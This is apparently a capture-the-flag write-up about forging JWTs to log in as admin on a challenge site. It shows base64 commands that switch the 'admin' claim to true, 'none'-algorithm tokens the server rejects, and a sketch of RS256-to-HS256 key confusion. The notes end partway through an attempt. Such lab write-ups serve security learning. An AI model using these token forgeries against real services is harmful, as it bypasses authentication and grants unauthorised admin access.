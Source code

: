 - this is the jwt token
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/c509f7a5-c54b-4c3a-a913-63000d606f8a)
- it is using rs256
- when we try to register as admin it says user already existed
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/6fe8c79b-99c1-48a7-924f-ae6f0cec472d)
- so our goal would be to login as admin
- and also
```
{
  "user": "user1",
  "public_id": "eebe4bd7-9c44-4c84-a9bb-dad336c8de5e",
  "admin": false,
  "exp": 1713093336
}
```
here we see admin:false
we can make it true
```
C:\home\radha> echo 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9'|base64 -d
{"alg":"RS256","typ":"JWT"}                                                                                
C:\home\radha> echo '{"alg":"None","typ":"JWT"}'|base64
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0K


C:\home\radha> echo 'eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQzMzZjOGRlNWUiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTcxMzA5MzMzNn0='|base64 -d 
{"user":"user1","public_id":"eebe4bd7-9c44-4c84-a9bb-dad336c8de5e","admin":false,"exp":1713093336}
                                                                           
C:\home\radha> echo '{"user":"user1","public_id":"eebe4bd7-9c44-4c84-a9bb-dad336c8de5e","admin":true,"exp":1713093336}'|base64
eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo=

eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0K.eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQz
MzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo.

```
![image](https://github.com/m0wn1ka/ctf/assets/127676379/351b175b-4fde-42bc-8ee6-eb8894e572f7)
- so it is not accepting none
```
{"message":"Invalid tokenThe specified alg value is not allowed"}
```
- there is another case rsa uses a pair of cases public and private
- uses private key to sign and public key to verify
- as we have access to public key we can sign our data with this key and say the algorith is hs256(symmetric enc)
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/9718b95b-6bbb-49f2-a7de-326096ffe668)
## try with none
```
C:\home\radha> echo '{"alg":"none","typ":"JWT"}'|base64
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0K

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0K.eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQzMzZjOGRlNWUiLCJhZG1pbiI6dHJ1ZSwiZXhwIjoxNzEzMDkzMzM2fQo.
```
## try with type:hs256 without signature
```
C:\home\radha> echo '{"alg":"HS256","typ":"JWT"}'|base64
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9Cg==

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9Cg.eyJ1c2VyIjoidXNlcjEiLCJwdWJsaWNfaWQiOiJlZWJlNGJkNy05YzQ0LTRjODQtYTliYi1kYWQzMzZjOGRlNWUiLCJhZG1pbiI6ZmFsc2UsImV4cCI6MTcxMzA5MzMzNn0.
